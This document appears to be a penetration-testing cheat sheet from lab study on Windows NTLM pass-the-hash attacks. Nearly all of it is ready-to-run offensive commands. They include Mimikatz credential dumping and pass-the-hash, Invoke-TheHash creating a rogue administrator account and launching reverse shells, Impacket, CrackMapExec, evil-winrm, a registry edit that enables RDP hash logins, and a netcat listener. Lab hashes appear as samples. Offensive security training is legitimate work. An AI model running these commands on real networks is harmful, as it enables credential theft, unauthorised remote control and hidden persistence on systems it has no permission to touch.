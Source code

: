 ---------------------------
# Windows NTLM Introduction
-------------------------
- Using Mimikatz
	- Log in using hashes 
	```cmd
	mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit

		# Options
		/user - The username we want to impersonate
		/rc4 or /NTLM - NTLM hash of the user's password
		/domain - Domain the user to impersonate belongs to.
		/run - the program we want to run once logged in	
	```
	- Extract hashes in the same session
	```cmd
	mimikatz.exe privilege::debug "sekurlsa::logonPasswords full" exit
	```
	
- PowerShell Invoke-TheHash
```PowerShell
# Invoke-TheHash with SMB
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target $IP -Domain $DOMAIN -Username $USERNAME -Hash $HASH -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

# Note we can create a reverse shell from this command
# Go to this page to set up a revesere shell https://www.revshells.com/
# Paste whatever generated into the -Command flag
```

```PowerShell
# Invoke-TheHash with WMI
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target $IP -Domain $DOMAIN -Username $USERNAME -Hash $HASH -Command $COMMAND
```

- Pass the Hash with Impacket PsExec
```bash
impacket-psexec administrator@$IP -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

- Pass the Hash with CrackMapExec
```bash
crackmapexec smb $IP -u $USERNAME -d . -H $HASH

# Execute command with CrackMapExec
crackmapexec smb $Ip -u $USERNAME -d . -H $HASH -x $COMMAND
```

- Pass the Hash with evil-winrm
```bash
evil-winrm -i $IP -u $USERNAME -H $HASH
```

- Pass the Hash with RDP
	- Precondition: Restricted Admin Mode must be enabled on the TARGET
	```cmd
	reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
	
	# Options:
	/t: Type of the registry
	/v: Name of the add of the registry
	/d: data of the added registry
	/f: Add the registry without confirmation
	```
	- Run xfreerdp with /pth flag
	```bash
	xfreerdp /v:$IP /u:$USERNAME /pth:$HASH
	```

- Create a reverse shell
	- Set up a nc listener
	```cmd
	nc -lnvp 9999
	```
	
	- Create a simple reverse shell using PowerShell, we can visit https://www.revshells.com/
	
	![](https://academy.hackthebox.com/storage/modules/147/rshellonline.jpg)
	
	- Use Invoke-TheHash tool to execute the command
	```cmd
	Invoke-WMIExec -Target $TARGET -Domain $DOMAIN -Username $USERNAME -Hash $HASH -Command $COMMAND
	```
